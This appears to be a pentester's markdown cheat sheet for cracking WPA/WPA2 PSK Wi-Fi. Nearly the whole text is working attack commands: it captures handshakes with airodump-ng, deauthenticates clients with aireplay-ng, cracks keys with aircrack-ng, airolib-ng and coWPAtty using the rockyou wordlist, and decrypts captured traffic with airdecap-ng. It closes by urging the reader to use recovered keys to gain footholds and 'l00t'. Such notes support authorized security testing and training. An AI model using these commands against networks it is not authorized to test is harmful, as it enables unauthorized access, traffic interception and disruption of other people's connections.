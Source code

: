 # Cracking	WPA/WPA2	PSK with Aircrack-ng - https://www.aircrack-ng.org/doku.php?id=cracking_wpa
* Aircrack.ng can only crack WPA/WPA2 networks that use PSK. If the authentication type is not shown as PSK then do not bother trying :D
* Start your capture: airodump-ng -c [CHANNEL] --bssid [BSSID] -w [FILENAME] wlan1mon
* Let's deauthenticate a client to capture the handshake: aireplay-ng -0 1 -a [AP MAC] -c [Client MAC] wlan1mon
* We can then crack this handshake with our beloved aircrack.ng: aircrack.ng -w /usr/share/wordlists/rockyou.txt [FILENAME]
* If you get a message is returned that "No valid WPA handshakes were found" try deauthenticating the client again and capturing a new handshake.

# Airolib-ng - https://www.aircrack-ng.org/doku.php?id=airolib-ng
* Let's speed up our cracking of the WPA handshake.
* Create file with AP ESSID in it: echo apessid > apessid.txt 
* Import into the database: airolib-ng [db name] --import apessid [apessid.txt]
* View information stored in the database: airolib-ng [db name] --stats
* Import wordlist into the database: airolib-ng test --import passwd /usr/share/wordlists/rockyou.txt
* Have airolib-ng do some magic: airolib-ng test --batch
* We can now use aircrack-ng with our newly created database: aircrack-ng -r test <CAPTUREFILE>
 
# WPA Cracking with coWPAtty - https://github.com/joswr1ght/cowpatty
* Follow the usual steps to obtain a WPA handshake. 
* Dictionary mode: cowpatty -r [CAPTURE] -f /usr/share/wordlists/rockyou.txt -2 -s [ESSID]
* The following instructions will detail coWPAtty rainbow table mode:
* Similar to John, let's create some requirements: genpmk -f /usr/share/wordlists/rockyou.txt -d cowhash.txt -s <ESSID>
* Now let's get cracking: cowpatty -r [CAPTURE] -d cowhash.txt -2 -s <ESSID>

# WPA Cracking with Pyrit - https://github.com/JPaulMora/Pyrit
* I have removed Pyrit as it is no longer contained in the default repos of Kali. I strongly believe that aircrack-ng and coWPAtty are sufficient enough. However, Pyrit is still useful in some cases so I have included it in these notes.
 
# Airdecap-ng - https://www.aircrack-ng.org/doku.php?id=airdecap-ng
* Remove wireless headers: airdecap-ng -b [AP MAC] [CAPTURE]
* Decrypt WEP: airdecap-ng -w [WEPKey] -b [AP MAC] [CAPTURE]
* Decrypt WPA: airdecap-ng -e [ESSID] -p [WPAPass] -b [AP MAC] [CAPTURE]
* Pentesting only begins once you recover these keys! Be creative, use the information gained to discover footholds and l00t. 
